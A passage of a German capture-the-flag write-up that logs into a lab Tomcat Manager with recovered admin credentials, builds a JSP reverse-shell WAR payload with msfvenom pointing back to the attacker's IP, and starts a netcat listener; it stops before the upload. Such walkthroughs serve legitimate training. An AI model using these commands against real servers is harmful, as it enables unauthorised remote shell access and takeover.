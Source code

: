 Ein Eintrag mit dem Nutzernamen **admin** und dem dazugehörigen Passwort **3@g01PdhB!**.

Probieren wir die Anmeldedaten doch bei **10.10.10.55:8080/manager/html** aus!

![bild6](https://imgur.com/KrRzVJO.jpg)

Es hat funktioniert. Wir sind nun als Admin im Tomcat Manager angemeldet und können nun, wie man ganz unten auf dem Screenshot sieht, eine [WAR](https://de.wikipedia.org/wiki/Web_Application_Archive)-Datei hochladen und diese sogar auch ausführen lassen.

Mit Hilfe von **msfvenom** können wir eine **Java JSP Reverse Shell** erstellen und diese als **WAR**-Datei verpacken.  
Sehen wir dafür zuerst unsere IP-Adresse nach.

```shell
root@kali:~# ifconfig tun0
[...]
inet 10.10.15.158 netmask 255.255.254.0 destination 10.10.15.158
[..]
```

Suchen wir nun nach Java-Payloads.

```shell
root@kali:~# msfvenom -l payloads | grep java
java/jsp_shell_bind_tcp Listen for a connection and spawn a command shell
java/jsp_shell_reverse_tcp Connect back to attacker and spawn a command shell
java/meterpreter/bind_tcp Run a meterpreter server in Java. Listen for a connection
java/meterpreter/reverse_http Run a meterpreter server in Java. Tunnel communication over HTTP
java/meterpreter/reverse_https Run a meterpreter server in Java. Tunnel communication over HTTPS
java/meterpreter/reverse_tcp Run a meterpreter server in Java. Connect back stager
java/shell/bind_tcp Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
java/shell/reverse_tcp Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
jaa/shell_reverse_tcp Connect back to attacker and spawn a command shell
```

Erstellen wir nun den **Java-Payload**, geben unsere IP-Adresse als **LHOST** an, den Port an dem wir die Verbindung empfangen wollen als **LPORT** und geben mit **-f** war an, dass wir dies als **WAR**-Datei haben wollen.

```shell
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.158 LPORT=4444 -f war > m10x.war
Payload size: 1090 bytes
Fial size of war file: 1090 bytes
```

Jetzt können wir mit **Netcat** auf dem Port, den wir angegeben haben, auf eine Verbindung warten lassen.

```shell
root@kali:~# nc -lnvp 4444
litening on [any] 4444 ...
```

Nun müssen wir nur noch die **.war** Datei hochladen.
